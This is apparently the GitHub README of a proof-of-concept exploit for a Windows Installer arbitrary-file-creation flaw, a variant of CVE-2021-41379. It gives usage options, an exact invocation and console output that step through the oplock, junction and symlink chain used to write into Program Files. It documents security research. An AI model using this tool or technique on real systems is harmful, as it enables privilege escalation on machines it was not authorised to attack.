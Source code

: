 # shakeitoff

A smaller, minimized, and cleaner version of [InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver) aka the zero-day exploit that is a "variation" of CVE-2021-41379. This version *does not* pop a shell like `InstallerFileTakeOver`. The point of this code was to create a simpler proof of concept that more reliably demonstrates the file creation attack. This proof of concept will create the arbitrary file requested by the user (and copy itself into it to prove writablity). Demonstrating code execution is a trivial excercise left up to the reader.

To understand how the attack works, please see the [AttackerKB write up](https://attackerkb.com/topics/7LstI2clmF/cve-2021-41379/rapid7-analysis).

## Usage

The tool requires three parameters:

```
C:\Users\albinolobster\source\repos\shakeitoff\x64\Release>.\shakeitoff.exe
option "msi_path" is required
Allowed options:
  -h, --help              produce help message
  -m, --msi_path arg      The path to the MSI to install
  -i, --install_path arg  The path to install to
  -p, --target_path arg   The file to create
```

1. -m - the msi to install (full path required). One is provided in this repository (and you should use it since the file paths actually matter).
2. -i - the install path (full path required). This is where the msi is installed / the exploit goes down. The user must specify this beforehand and it *must* be an empty directory. The tool doesn't clean it up because it makes figuring out the bug easier. There also must be a trailing \ because I'm a monster.
3. -p - the file to overwrite/create. Full path required.


The PoC will just copy itself into the target file. 


## Usage Example

```
C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

File Not Found

C:\Users\Public>.\shakeitoff.exe -m C:\Users\Public\shakeitoff.msi -i C:\Users\Public\lol\ -p "C:\Program Files\lol"
[+] User provided MSI path: C:\Users\Public\shakeitoff.msi
[+] The target path is: C:\Program Files\lol
[+] Create the temp directory structure we'll install into
[+] Grabbing handle to lock C:\Users\Public\lol\shakeitoff\haters.jpg
[+] Grabbing a directory handle of C:\Users\Public\lol\shakeitoff\
[+] Monitor shakeitoff\shakeitoff for an rbf file
[+] MSI install: ACTION=ADMIN REBOOT=ReallySuppress TARGETDIR=C:\Users\Public\lol\ C:\Users\Public\shakeitoff.msi
[+] Grabbing a handle to inner shakeitoff directory
[+] In callback for oplock one
[+] Opening handle to C:\Users\Public\lol\shakeitoff\8da858.rbf
[+] Creating the callback directory at C:\Users\Public\lol\cb_directory
[+] Grab a handle for the callback directry
[+] Creating a junction from C:\Users\Public\lol\cb_directory to \BaseNamedObjects\Restricted
[+] Inside callback two
[+] Release the hater.jpg handle to unlock
[+] Move the rbf file to C:\Users\Public\lol\weird_directory
[+] Move inner shakeitoff to C:\Users\Public\lol\weird_directory
[+] Move junction at C:\Users\Public\lol\cb_directory to C:\Users\Public\lol\shakeitoff
[+] Configuring symlink from \BaseNamedObjects\Restricted\8da858.rbf to \??\C:\Program Files\lol
[+] symlink created!
[+] MsiInstallProductA return value: 1603
[+] Exploit thread joined
[+] Copy into target!

C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

12/02/2021  02:01 PM           368,640 lol
               1 File(s)        368,640 bytes
               0 Dir(s)  86,015,610,880 bytes free
```

## Credit

* This code is influenced by the original [exploit](https://github.com/klinix5/InstallerFileTakeOver) published by Abdelhamid Naceri (also the original vulnerability discoverer!).
* The `FileOpLock` code is a (slight modified) version pulled out of [angrypolarbearbug2](https://github.com/jackusm/polarbearrepo/tree/f37184a3fc3ffa5ea76035c9fbdee95a39d7b4c3/angrypolarbearbug2)
* Taylor Swift
